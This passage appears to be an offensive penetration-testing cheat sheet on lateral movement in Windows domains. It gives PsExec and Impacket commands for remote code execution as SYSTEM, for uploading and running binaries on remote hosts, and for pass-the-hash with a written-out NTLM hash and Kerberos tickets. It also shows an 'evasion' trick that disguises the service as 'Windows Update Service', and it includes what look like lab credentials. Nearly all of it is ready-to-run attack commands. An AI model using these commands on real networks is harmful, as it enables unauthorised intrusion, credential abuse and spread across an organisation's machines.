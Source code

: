 **Additional Command-Line Parameters:**
```cmd
# Execute without interactive session
.\PsExec64.exe \\FILES04 -u corp\jen -p Nexus123! whoami

# Run as SYSTEM account
.\PsExec64.exe \\FILES04 -u corp\jen -p Nexus123! -s cmd

# Copy program to remote system and execute
.\PsExec64.exe \\FILES04 -u corp\jen -p Nexus123! -c program.exe

# Execute on multiple targets
.\PsExec64.exe \\FILES04,\\WEB04 -u corp\jen -p Nexus123! cmd

# Low priority execution
.\PsExec64.exe \\FILES04 -u corp\jen -p Nexus123! -l cmd
```

### Impacket PsExec Implementation

**Hash-Based Authentication:**
```bash
# PsExec with NTLM hash
impacket-psexec -hashes :2892d26cdf84d7a70e2eb3b9f05c425e Administrator@192.168.50.73

# PsExec with plaintext password
impacket-psexec Administrator:password123@192.168.50.73

# PsExec with Kerberos ticket
impacket-psexec -k -no-pass Administrator@target.domain.com
```

**Advanced Impacket Options:**
```bash
# Custom service name (evasion)
impacket-psexec -service-name "Windows Update Service" Administrator@192.168.50.73

# Upload and execute custom binary
impacket-psexec -file /path/to/binary.exe Administrator@192.168.50.73

# Use alternative authentication methods
impacket-psexec -aesKey <aes_key> Administrator@192.168.50.73
```

### PsExec vs Alternative Tools

**Impacket Tool Comparison:**
```bash
# SMBExec - Similar to PsExec but uses different service approach
impacket-smbexec -hashes :hash Administrator@target

# ATExec - Uses Task Scheduler instead of services
impacket-atexec -hashes :hash Administrator@target

# WMIExec - Uses WMI for execution
impacket-wmiexec -hashes :hash Administrator@target
```
